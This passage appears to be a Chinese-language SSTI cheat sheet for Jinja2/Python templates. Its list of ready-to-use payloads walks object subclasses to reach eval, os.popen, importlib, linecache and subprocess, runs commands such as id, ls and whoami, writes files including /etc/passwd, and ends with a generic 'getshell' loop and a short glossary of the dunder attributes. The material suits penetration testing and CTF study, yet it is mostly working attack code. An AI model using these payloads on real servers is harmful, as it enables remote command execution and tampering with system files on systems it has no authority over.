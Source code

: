 ```
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}


\#调用 importlib类
{{''.__class__.__base__.__subclasses__()[128]["load_module"]("os")["popen"]("ls /").read()}}


\#调用linecache函数
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache']['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}


\#调用communicate()函数
{{''.__class__.__base__.__subclasses__()[128]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}


\#写文件
写文件的话就直接把上面的构造里的read()换成write()即可，下面举例利用file类将数据写入文件。
{{"".__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/tmp').write('test')}}  ----python2的str类型不直接从属于基类，所以payload中含有两个 .__bases__
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').write('123456')}}


\#通用 getshell
原理：找到含有 __builtins__ 的类，利用即可。
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}

```



#### 常用的类方法

```
__class__用来查看变量所属的类

__bases__用来查看类的基类，就是父类（或者__base__）

__mro__：显示类和基类

__subclasses__()：查看当前类的子类

__getitem__：对数组字典的内容提取

__init__  : 初始化类，返回的类型是function

__globals__:查看全局变量，有哪些可用的函数方法等，然后再搜索popen，eval等

__builtins__:提供对Python的所有"内置"标识符的直接访问,即先加载内嵌函数再调用

```
